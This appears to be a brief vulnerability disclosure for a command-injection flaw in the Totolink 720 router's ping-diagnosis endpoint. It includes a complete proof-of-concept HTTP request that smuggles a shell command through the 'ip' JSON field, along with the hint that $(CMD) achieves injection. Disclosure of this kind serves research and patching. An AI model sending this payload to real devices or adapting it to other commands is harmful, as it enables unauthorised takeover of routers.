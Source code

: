 #Exploit Title:Totolink 720 has a code execution vulnerability  
#Version:V4.1.5cu.374  
#Date:2022/08/16  
#Exploit Author:xiaohu816  
#Vendor Homepage:https://www.totolink.net/  
#Analysis Report: 
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  

POC:  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
执行tls>/tmp/1.txt命令  
``POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 52
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID=2:1591951611:2
Connection: close

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}``
